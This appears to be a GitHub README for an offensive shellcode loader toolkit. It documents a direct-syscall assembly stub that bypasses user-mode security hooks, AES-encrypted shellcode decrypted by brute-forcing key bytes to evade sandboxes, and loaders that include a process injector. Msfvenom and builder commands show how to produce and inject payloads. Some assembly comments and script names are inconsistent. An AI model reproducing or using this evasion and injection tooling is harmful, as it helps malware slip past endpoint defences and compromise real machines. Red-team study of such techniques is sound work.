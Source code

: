 # GENERIC SYSCALL
This code impliments the Sorting by System Call Address method described in a [blogpost.](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)<br>

quick disasm with https://defuse.ca/online-x86-assembler.htm#disassembly
```
ZwX:
   58                          pop     rax            ; return address
   41 5A                       pop     r10
   50                          push    rax            ; save in shadow space as _rcx
   51                          push    rcx            ; rax = ssn
   58                          pop     rax
   52                          push    rdx            ; rcx = arg1
   41 5A                       pop     r10
   41 50                       push    r8             ; rdx = arg2
   5A                          pop     rdx
   41 51                       push    r9             ; r8 = arg3
   41 58                       pop     r8             ; r9 = arg4
   4C 8B 4C 24 20              mov     r9, [rsp + 0x20]
   0F 05                       syscall
   FF 64 24 18                 jmp     qword[rsp]
```
This is an interesting technique because it removes the need to both define native function types in our header files and to define each native function in assembly.  
Some prerequisite knowledge:  
When a function is called the return address is pushed to the stack and execution jumps to the address of the function. So `call` is really like a `push ret` then `jmp faddr` instruction. 
In x64 the fastcall calling convention is used. With fastcall four registers are used to hold the first four parameters of a function (`rcx`, `rdx`, `r8`, `r9`).

So `pop rax` moves the return address from the top of the stack to `rax`.  
`pop r10` moves the next item from the top of the stack to `r10`.
The return address in `rax` is moved back to the top of the stack with the `push rax` operation.
The first parameter of our ZwX fucntion is then pushed onto the stack with `push rcx`. 

Additionally shellcode is encrypted with AES-CBC encryption via the kokke TinyAES library.  
The IV and key are generated with the get_random_bytes function in the pycryptodome library.  
The shellcode payload is decrypted with a crude brute-force loop of the last two bytes of the key instead of using the sleep function.  
```c 
for (int i = 0x00; i<=0xff;i++) {
    key[14] = i;
    for (int j = 0x00; j <= 0xff;j++) {
        key[15] = j;
        AES_init_ctx_iv(&ctx, key, iv);
        AES_CBC_decrypt_buffer(&ctx, encrypted_instructions, ENCRYPTED_BIN_LEN);
``` 
There is a loader, which just runs the shellcode in the same process via function pointer, a loader that does the same thing but via sections, and a process injector.  

requirments:
```
gcc
python3
nasm
```

use  
`python3 -m venv env`  
`source env/bin/activate`  
`pip install pycryptodome`  
`msfvenom -p windows/x64/exec CMD='C:\Windows\System32\notepad.exe' EXITFUNC=process -f raw -o test.bin`  
`python build.py -inbin test.bin -execmethod runner`  
`python builder.py -inbin test.bin -execmethod section_inject --process notepad.exe --cmdline 'c:\\\\windows\\system32\\firefox.exe'`


```
usage: builder.py [-h] [-inbin INBIN] [-execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}] [--process PROCESS] [--cmdline CMDLINE] [--v V]

generate AES encrypted shellcode runners

optional arguments:
  -h, --help            show this help message and exit
  -inbin INBIN          .bin file
  -execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}
  --process PROCESS     process to inject (only with 'section_inject')
  --cmdline CMDLINE     cmdline argument to show (only with 'section_inject')
  --verbose             
  ```  


### References & Reading
Generally:  
hasherezade -- rely heavilly on her PEB lookup heeader code
forrest-orr -- excellent code to read and learn from  
batsec -- lots of python building stuff from his shad0w project
https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams  
https://github.com/simon-whitehead/assembly-fun/blob/master/windows-x64/README.md  